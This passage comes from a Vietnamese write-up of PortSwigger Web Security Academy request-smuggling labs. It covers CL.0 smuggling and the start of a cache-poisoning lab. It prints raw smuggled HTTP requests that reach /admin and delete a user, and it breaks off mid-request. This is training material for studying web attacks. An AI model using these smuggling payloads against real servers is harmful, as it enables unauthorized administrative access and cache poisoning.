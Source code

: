 >Xóa `carlos`:
>![image](https://hackmd.io/_uploads/HkhYUBI_C.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/SkF9UH8dA.png)

### **15. Lab: CL.0 request smuggling**
![image](https://hackmd.io/_uploads/BJok1IUu0.png)

>Tại request load các resources bị smuggled khi thêm body và update giá trị cho `Content-Length`:
>![image](https://hackmd.io/_uploads/SJaqXLUdC.png)

>Cụ thể, bên phía front-end server hỗ trợ header `Content-Length` và lấy cả phần body `abc`  forward request  sang cho back-end server. Mà phía back-end lại không hỗ trợ header này, mặc định coi request kết thúc khi hết header, kết quả là phần `abc` sẽ bị thừa và bị hiểu sang 1 request mới => Back-end server ko chấp nhận request có method `abc` !!

>Lúc này, ta thay body thành request đến `/admin` và request smuggling này sẽ là prefix cho request sau:
```
POST /resources/images/blog.svg HTTP/2
Host: 0ae100300475816680aa7642001e00c1.web-security-academy.net
Cookie: session=j9LS0PGWX9Re6Li8CbJqxRHCnRHNfYHE
Content-Length: CORRECT

GET /admin HTTP/1.1
Foo: x
```
>![image](https://hackmd.io/_uploads/HJnm8LUOA.png)

>Thành công có thể truy cập vào được `/admin` !
>Xóa người dùng `carlos`:
>![image](https://hackmd.io/_uploads/rJ8PIUI_C.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/ryHOU8LuR.png)

### **16. Lab: Exploiting HTTP request smuggling to perform web cache poisoning**
![image](https://hackmd.io/_uploads/ryn4dLI_C.png)

>Đầu tiên, ta xác nhận lab này dính lỗi `CL.TE`:
>![image](https://hackmd.io/_uploads/r1RusULdA.png)

>Tiếp theo, khi load trang chủ `/` sẽ load file tại `/resources/js/tracking.js` và trong respone có sử dụng cache!
>![image](https://hackmd.io/_uploads/HJAniLIOC.png)

>Tại chức năng chuyển sang post kế tiếp "Next Post", có request đến `/post/next?postId=<ID>` và sau đó được redirect đến next post:
>![image](https://hackmd.io/_uploads/S1z4T8IdC.png)
![image](https://hackmd.io/_uploads/H1fPa8U_C.png)

>Smuggling với request `/post/next?postId=<ID>` bằng host bất kì thì thấy redirect về chính host ta controll với đường dẫn `/post`:
```
POST / HTTP/1.1
Host: 0a63002a0341ddf680c5dacf003800b4.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
```